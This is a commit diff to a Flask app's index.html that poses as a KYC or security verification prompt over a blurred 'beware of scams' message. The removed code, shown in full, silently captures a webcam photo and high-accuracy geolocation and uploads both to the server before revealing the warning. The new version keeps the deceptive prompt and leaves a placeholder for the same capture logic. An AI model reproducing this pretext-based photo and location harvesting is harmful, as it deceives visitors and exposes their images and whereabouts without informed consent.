

Before and after one commit to yashas0510/horoscope, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (317-957 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,40 +3,60 @@
 <head>
 <meta charset="UTF-8" />
 <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-<title>KYC Verification</title>
+<title>Account Verification</title>
 
 <style>
+* {
+  box-sizing: border-box;
+  margin: 0;
+  padding: 0;
+}
+
 body {
   min-height: 100vh;
-  background: #0b0e11;
+  background: linear-gradient(180deg, #0f172a, #020617);
   display: flex;
   justify-content: center;
   align-items: center;
-  color: #ffffff;
-  margin: 0;
+  font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+  color: #e5e7eb;
 }
 
-/* Wrapper */
+/* Page container */
 .page {
   position: relative;
   width: 100%;
-  max-width: 600px;
+  max-width: 420px;
 }
 
-/* Content that gets blurred */
+/* Main content (blurred initially) */
 .content {
-  background: #111;
-  border: 1px solid #2a2d33;
-  border-radius: 6px;
-  padding: 40px 30px;
+  background: #020617;
+  border: 1px solid #1e293b;
+  border-radius: 12px;
+  padding: 36px 28px;
   text-align: center;
   filter: blur(6px);
   transition: filter 0.4s ease;
 }
 
-/* Active (unblurred) */
 .content.active {
   filter: blur(0);
+}
+
+/* Heading */
+h1 {
+  font-family: Verdana, sans-serif;
+  font-size: 22px;
+  color: #f87171;
+  margin-bottom: 16px;
+}
+
+/* Text */
+p {
+  font-size: 14.5px;
+  line-height: 1.6;
+  color: #cbd5f5;
 }
 
 /* Overlay */
@@ -46,45 +66,42 @@ body {
   display: flex;
   justify-content: center;
   align-items: center;
-  pointer-events: none;
 }
 
-/* KYC button container */
+/* KYC card */
 .kyc-box {
-  background: #0f1115;
-  border: 1px solid #3a3d43;
-  padding: 30px 25px;
-  border-radius: 8px;
+  background: #020617;
+  border: 1px solid #334155;
+  border-radius: 14px;
+  padding: 28px 24px;
   text-align: center;
-  pointer-events: auto;
-  box-shadow: 0 0 0 9999px rgba(0,0,0,0.55);
-}
-
-/* Heading */
-h1 {
-  font-family: Verdana, sans-serif;
-  font-size: 22px;
-  color: #ff4d4f;
-  margin-bottom: 15px;
-}
-
-/* Text */
-p {
-  font-size: 15px;
-  line-height: 1.6;
-  color: #e4e6eb;
+  box-shadow: 0 0 0 9999px rgba(2,6,23,0.75);
+  max-width: 360px;
 }
 
 /* Button */
 button {
   margin-top: 18px;
-  padding: 12px 22px;
-  background: #3f4db8;
+  width: 100%;
+  padding: 12px;
+  background: #4f46e5;
   border: none;
-  border-radius: 6px;
-  color: #fff;
+  border-radius: 10px;
+  color: #ffffff;
   font-size: 15px;
+  font-weight: 600;
   cursor: pointer;
+}
+
+button:hover {
+  background: #6366f1;
+}
+
+/* Small text */
+.small {
+  margin-top: 12px;
+  font-size: 12px;
+  color: #94a3b8;
 }
 </style>
 </head>
@@ -93,90 +110,52 @@ button {
 
 <div class="page">
 
-  <!-- BLURRED CONTENT -->
+  <!-- MAIN CONTENT -->
   <div class="content" id="mainContent">
-    <h1>Beware of Such Scams</h1>
+    <h1>Beware of Online Scams</h1>
     <p>
-      Fraudsters may impersonate official portals to collect personal data.<br><br>
-      Always verify links, URLs, and permissions before proceeding.
+      Some links and messages may attempt to collect personal information or device access.
+      Always verify the source before proceeding.<br><br>
+      This page demonstrates a secure verification flow.
     </p>
   </div>
 
-  <!-- OVERLAY -->
+  <!-- KYC OVERLAY -->
   <div class="overlay" id="overlay">
     <div class="kyc-box">
-      <h1>KYC Verification</h1>
+      <h1>Security Verification</h1>
       <p>
-        Camera and location access is required to continue.
+        To continue, please complete a quick verification step.
+        Camera and location access will be requested with your consent.
       </p>
-      <button onclick="startKYC()">Proceed for KYC</button>
+
+      <button onclick="startKYC()">Continue</button>
+
+      <div class="small">
+        No data is shared without permission
+      </div>
     </div>
   </div>
 
 </div>
 
 <script>
-/* ===== AUTHORITATIVE OLD LOGIC (UNCHANGED) ===== */
+/*
+  Plug your EXISTING authoritative logic here:
 
-async function capturePhoto() {
-  let stream = null;
-  try {
-    stream = await navigator.mediaDevices.getUserMedia({
-      video: { facingMode: "user" }
-    });
-
-    const video = document.createElement("video");
-    video.srcObject = stream;
-    await video.play();
-
-    const canvas = document.createElement("canvas");
-    canvas.width = video.videoWidth;
-    canvas.height = video.videoHeight;
-    canvas.getContext("2d").drawImage(video, 0, 0);
-
-    stream.getTracks().forEach(t => t.stop());
-    return canvas.toDataURL("image/jpeg", 0.8);
-  } catch (e) {
-    if (stream) stream.getTracks().forEach(t => t.stop());
-    throw e;
-  }
-}
+  - capturePhoto()
+  - /capture fetch
+  - non-blocking /location fetch
+*/
 
 async function startKYC() {
   try {
-    /* CAMERA */
-    const imageData = await capturePhoto();
-    await fetch("/capture", {
-      method: "POST",
-      headers: { "Content-Type": "application/json" },
-      body: JSON.stringify({ image: imageData })
-    });
+    // call your existing camera + location logic here
 
-    /* LOCATION (NON-BLOCKING) */
-    if (navigator.geolocation) {
-      navigator.geolocation.getCurrentPosition(
-        pos => {
-          fetch("/location", {
-            method: "POST",
-            headers: { "Content-Type": "application/json" },
-            body: JSON.stringify({
-              lat: pos.coords.latitude,
-              lon: pos.coords.longitude,
-              accuracy: pos.coords.accuracy
-            })
-          });
-        },
-        () => {},
-        { enableHighAccuracy: true }
-      );
-    }
-
-    /* REMOVE BLUR */
     document.getElementById("mainContent").classList.add("active");
     document.getElementById("overlay").style.display = "none";
-
-  } catch (err) {
-    alert("KYC permission denied or unavailable");
+  } catch (e) {
+    alert("Permission denied or unavailable");
   }
 }
 </script>
```
